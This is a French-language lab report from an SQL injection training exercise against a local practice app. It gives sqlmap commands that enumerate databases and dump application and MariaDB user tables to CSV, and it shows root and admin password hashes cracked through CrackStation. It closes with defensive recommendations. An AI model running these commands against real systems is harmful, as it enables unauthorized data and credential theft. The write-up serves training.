 # 🛡️ SQL Injection Training App - Rapport 🛡️

<div align="center">

![SQL Injection](https://evalian.co.uk/wp-content/uploads/2022/04/XSS-Attacks.png)

</div>


---

## 📋 Objectif

Ce projet a pour but de démontrer l'exploitation de vulnérabilités d'injection SQL dans une application web. Les objectifs spécifiques sont :

1. [**Extraire le schéma de la base de données**](information_schema) et le sauvegarder dans un fichier `.csv`.
2. [**Lister les utilisateurs de l'application**](sqlitraining/users.csv) et les sauvegarder dans un fichier `.csv`.
3. [**Lister les utilisateurs de MariaDB**](mysql/user.csv) et les sauvegarder dans un fichier `.csv`.
4. **Obtenir et documenter le mot de passe de l'utilisateur root de MariaDB** par force brute.
   
---

## 🛠️ Pré-requis

- **sqlmap** : Outil puissant pour automatiser la détection et l'exploitation des vulnérabilités d'injection SQL.
- **MariaDB** : Système de gestion de base de données utilisé par l'application cible.
- **Accès à l'application web vulnérable**.

---

## 🚀 Étapes Réalisées

### 1. 🔍 Identification des Vulnérabilités d'Injection SQL

En testant les champs du formulaire `register.php` avec une apostrophe (`'`), une erreur SQL a été générée, révélant l'utilisation de MariaDB. Cela a indiqué une potentielle vulnérabilité d'injection SQL.

**erreur :**

```
Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'd41d8cd98f00b204e9800998ecf8427e','','')' at line 1
```

---

### 2. 🗄️ Extraction du Schéma de la Base de Données

**Commande utilisée :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       --dbs --batch
```

**Bases de données identifiées :**

- `information_schema`
- `mysql`
- `performance_schema`
- `sqlitraining`
- `sys`

Nous avons ciblé la base de données `sqlitraining` pour extraire son schéma.

**Extraction des tables de `sqlitraining` :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining --tables --batch
```

**Tables trouvées :**

- [`products`](sqlitraining/products.csv)
- [`users`](sqlitraining/users.csv)

**Dump du schéma dans un fichier `.csv` :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining --dump --dump-format=CSV --batch
```

---

### 3. 👥 Liste des Utilisateurs de l'Application

En ciblant la table `users` de la base `sqlitraining`, nous avons extrait les utilisateurs de l'application.

**Commande :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining -T users --dump --dump-format=CSV --batch
```


---

### 4. 🗝️ Liste des Utilisateurs de MariaDB

Nous avons ciblé la base de données `mysql`, qui contient les informations des utilisateurs de MariaDB.

**Commande :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D mysql -T user --dump --dump-format=CSV --batch
```

**Résultat :**

La liste des utilisateurs de MariaDB a été extraite et sauvegardée dans `users.csv`.

---

### 5. 🔐 Récupération du Mot de Passe de l'Utilisateur Root de MariaDB

En analysant les données extraites, nous avons récupéré le hachage du mot de passe de l'utilisateur `root`.

**Hachage récupéré :**

```
81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
```

**Déchiffrement du hachage :**

Nous avons utilisé [CrackStation](https://crackstation.net/) pour déchiffrer le hachage.

**Mot de passe obtenu :**

```
root
```

*Le mot de passe est étonnamment simple, ce qui souligne l'importance d'utiliser des mots de passe forts.*

---

### 6. 🏆 Challenge 2 : Récupération du Mot de Passe de l'Administrateur de l'Application

En examinant la table `users`, nous avons identifié l'utilisateur administrateur.

**Commande :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining -T users --dump --dump-format=CSV --batch
```

**Mot de passe de l'administrateur :**

```
admin
```

le mot de passe est encoder en **MD5** (21232f297a57a5a743894a0e4a801fc3), il nous suffit de prendre le hash et de le mettre sur crackstations.

*Encore une fois, un mot de passe faible qui peut être facilement compromis.*

---

## 📊 Résumé des Résultats

| Objectif                                                       | Statut    |
|---------------------------------------------------------------|-----------|
| Extraction du schéma de la base de données                    | ✅ Réussi |
| Liste des utilisateurs de l'application                       | ✅ Réussi |
| Liste des utilisateurs de MariaDB                             | ✅ Réussi |
| Récupération du mot de passe root de MariaDB                  | ✅ Réussi |
| Challenge 2 : Mot de passe de l'administrateur de l'application | ✅ Réussi |

---

## 🔒 Conclusion et Recommandations

Cette exploitation démontre à quel point les applications web peuvent être vulnérables aux attaques par injection SQL si elles ne sont pas correctement sécurisées.

**Recommandations :**

- **Utiliser des requêtes préparées** : Éviter les concaténations de chaînes pour construire des requêtes SQL.
- **Valider et assainir toutes les entrées utilisateur** : Utiliser des fonctions d'échappement et de validation.
- **Mots de passe forts** : Toujours utiliser des mots de passe complexes et uniques pour les utilisateurs et les administrateurs.
- **Mises à jour régulières** : Garder les systèmes et les applications à jour avec les derniers correctifs de sécurité.
- **Limiter les privilèges** : Les utilisateurs ne devraient avoir que les privilèges nécessaires pour accomplir leurs tâches.

